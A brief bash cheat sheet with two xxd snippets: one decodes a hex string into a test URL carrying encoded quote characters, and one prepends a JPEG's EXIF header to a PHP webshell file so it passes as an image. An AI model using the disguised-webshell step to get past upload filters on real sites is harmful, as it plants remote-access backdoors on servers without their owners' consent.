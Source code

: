 
__convert ascii hex string to ascii__

```bash
echo 687474703a2f2f746573742e656266652e70772f7269636b726f6c6c2e6769663f613d2532322532322532353232 | xxd -r -p
http://test.ebfe.pw/rickroll.gif?a=%22%22%2522
```

__Create php webshell with exif of a jpeg file at beginning__
```bash
xxd -l 0x20 ~/Downloads/1c5fe18a-03eb-4986-b7bb-9ef66c2379a6.jpeg | xxd -r  > ~/test/shell_exifheader.php.jpg
xxd ~/test/shell.php.jpg |  xxd -r >> ~/test/shell_exifheader.php.jpg
```